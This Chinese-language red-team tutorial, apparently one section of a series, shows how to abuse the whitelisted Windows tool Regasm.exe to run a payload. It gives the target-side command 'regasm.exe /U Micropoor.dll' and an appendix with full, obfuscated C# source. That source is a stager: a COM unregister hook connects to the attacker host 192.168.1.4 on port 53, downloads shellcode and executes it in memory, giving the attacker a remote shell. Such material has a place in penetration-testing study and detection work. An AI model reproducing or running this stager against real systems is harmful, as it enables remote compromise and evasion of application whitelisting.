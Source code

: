 ### 11.3 基于白名单Regasm.exe执行payload（三）

**Regasm简介：**

Regasm 为程序集注册工具，读取程序集中的元数据，并将所需的项添加到注册表中。RegAsm.exe是Microsoft Corporation开发的合法文件进程。它与Microsoft.NET Assembly Registration Utility相关联。

说明：Regasm.exe所在路径没有被系统添加PATH环境变量中，因此，REGASM命令无法识别。

**具体参考微软官方文档：**

    https://docs.microsoft.com/en-us/dotnet/framework/tools/regasm-exe-assembly-registration-tool
    
        

**基于白名单Regasm.exe配置payload：**

Windows 7 默认位置：

    C:\Windows\Microsoft.NET\Framework\v4.0.30319\regasm.exe
    
        

攻击机：192.168.1.4 Debian

靶机：192.168.1.3 Windows 7

**配置攻击机msf：**-
![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201009225607584.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)

**靶机执行：**

    C:\Windows\Microsoft.NET\Framework\v4.0.30319\regasm.exe /U Micropoor.dll
    
        

![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201009225626148.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)-
![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201009225632366.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)

**附录：Micropoor.cs**-
注：x86 payload

    using System; using System.Net; using System.Linq; using System.Net.Sockets; using System.Runtime.InteropServices; using System.Threading; using System.EnterpriseServices; using System.Windows.Forms;
    
    namespace HYlDKsYF
    
    {
    
    public class kxKhdVzWQXolmmF : ServicedComponent { 
    
    public kxKhdVzWQXolmmF() { Console.WriteLine("doge"); } 
    
    [ComRegisterFunction]
    
    public static void RegisterClass ( string pNNHrTZzW )
    
    {
    
    ZApOAKJKY.QYJOTklTwn();
    
    } 
    
    [ComUnregisterFunction]
    
    public static void UnRegisterClass ( string pNNHrTZzW )
    
    {
    
    ZApOAKJKY.QYJOTklTwn();
    
    }
    
    } 
    
    public class ZApOAKJKY
    
    { [DllImport("kernel32")] private static extern UInt32 HeapCreate(UInt32 FJyyNB, UInt32 fwtsYaiizj, UInt32 dHJhaXQiaqW);
    
    [DllImport("kernel32")] private static extern UInt32 HeapAlloc(UInt32 bqtaDNfVCzVox, UInt32 hjDFdZuT, UInt32 JAVAYBFdojxsgo);
    
    [DllImport("kernel32")] private static extern UInt32 RtlMoveMemory(UInt32 AQdEyOhn, byte[] wknmfaRmoElGo, UInt32 yRXPRezIkcorSOo);
    
    [DllImport("kernel32")] private static extern IntPtr CreateThread(UInt32 uQgiOlrrBaR, UInt32 BxkWKqEKnp, UInt32 lelfRubuprxr, IntPtr qPzVKjdiF, UInt32 kNXJcS, ref UInt32 atiLJcRPnhfyGvp);
    
    [DllImport("kernel32")] private static extern UInt32 WaitForSingleObject(IntPtr XSjyzoKzGmuIOcD, UInt32 VumUGj);static byte[] HMSjEXjuIzkkmo(string aCWWUttzmy, int iJGvqiEDGLhjr) {
    
    IPEndPoint YUXVAnzAurxH = new IPEndPoint(IPAddress.Parse(aCWWUttzmy), iJGvqiEDGLhjr);
    
    Socket MXCEuiuRIWgOYze = new Socket(AddressFamily.InterNetwork, SocketType.Stream, ProtocolType.Tcp);
    
    try { MXCEuiuRIWgOYze.Connect(YUXVAnzAurxH); }
    
    catch { return null;}
    
    byte[] Bjpvhc = new byte[4];
    
    MXCEuiuRIWgOYze.Receive(Bjpvhc, 4, 0);
    
    int IETFBI = BitConverter.ToInt32(Bjpvhc, 0);
    
    byte[] ZKSAAFwxgSDnTW = new byte[IETFBI + 5];
    
    int JFPJLlk = 0;
    
    while (JFPJLlk < IETFBI)
    
    { JFPJLlk += MXCEuiuRIWgOYze.Receive(ZKSAAFwxgSDnTW, JFPJLlk + 5, (IETFBI ‐ JFPJLlk) < 4096 ? (IETFBI ‐ JFPJLlk) : 4096, 0);}
    
    byte[] nXRztzNVwPavq = BitConverter.GetBytes((int)MXCEuiuRIWgOYze.Handle);
    
    Array.Copy(nXRztzNVwPavq, 0, ZKSAAFwxgSDnTW, 1, 4); ZKSAAFwxgSDnTW[0] = 0xBF;
    
    return ZKSAAFwxgSDnTW;}
    
    static void TOdKEwPYRUgJly(byte[] KNCtlJWAmlqJ) {
    
    if (KNCtlJWAmlqJ != null) {
    
    UInt32 uuKxFZFwog = HeapCreate(0x00040000, (UInt32)KNCtlJWAmlqJ.Lengt h, 0);
    
    UInt32 sDPjIMhJIOAlwn = HeapAlloc(uuKxFZFwog, 0x00000008, (UInt32)KNCtlJWAmlqJ.Length);
    
    RtlMoveMemory(sDPjIMhJIOAlwn, KNCtlJWAmlqJ, (UInt32)KNCtlJWAmlqJ.Length);
    
    UInt32 ijifOEfllRl = 0;
    
    IntPtr ihXuoEirmz = CreateThread(0, 0, sDPjIMhJIOAlwn, IntPtr.Zero, 0, ref ijifOEfllRl);
    
    WaitForSingleObject(ihXuoEirmz, 0xFFFFFFFF);}} 
    
    public static void QYJOTklTwn() {
    
    byte[] ZKSAAFwxgSDnTW = null; ZKSAAFwxgSDnTW = HMSjEXjuIzkkmo("192.168.1.4", 53);
    
    TOdKEwPYRUgJly(ZKSAAFwxgSDnTW);
    
    } } }
    
        

* * *